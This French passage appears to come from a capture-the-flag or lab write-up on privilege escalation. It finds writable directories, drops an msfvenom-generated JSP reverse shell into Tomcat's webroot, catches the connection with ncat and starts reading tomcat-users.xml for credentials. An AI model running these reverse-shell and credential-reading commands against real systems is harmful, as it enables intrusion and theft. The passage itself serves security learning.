 Regardons du côté des dossiers dans lesquels on peut écrire :  

```plain
chawki@mangoo:~$ find / -type d -writable -not -path '/proc/*' 2> /dev/null
/var/lib/tomcat8/webapps/ROOT
/var/lib/lxcfs/proc
/var/lib/lxcfs/cgroup
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope
/var/tmp
/var/crash
/run/user/1000
/run/user/1000/systemd
/run/user/1000/gnupg
/run/screen
/run/lock
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service/init.scope
/dev/mqueue
/dev/shm
/tmp
/tmp/.font-unix
/tmp/.XIM-unix
/tmp/.X11-unix
/tmp/.ICE-unix
/tmp/.Test-unix
```

On a ce dossier *Tomcat* qui ressort... Ça peut sembler peu car cela ne vas pas nous amener un shell root... en tout cas pas directement :p  

On sait que *Tomcat* utilise un fichier XML */etc/tomcat8/tomcat-users.xml* dans lequel sont stockés des identifiants. Ce fichier est accessible uniquement pour l'utilisateur *tomcat8*.  

On peut placer un reverse shell JSP dans le dossier et voir les droits que l'on obtient en appelant son URL :  

```plain
$ msfvenom --format raw --platform linux -p java/jsp_shell_reverse_tcp LHOST=10.254.0.29 LPORT=7777 -o devloop_cb.jsp
Payload size: 1497 bytes
Saved as: devloop_cb.jsp

$ ncat -l -p 7777 -v
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 10.1.1.21.
Ncat: Connection from 10.1.1.21:33582.
id
uid=111(tomcat8) gid=113(tomcat8) groups=113(tomcat8)
cat /etc/tomcat8/tomcat-users.xml
```
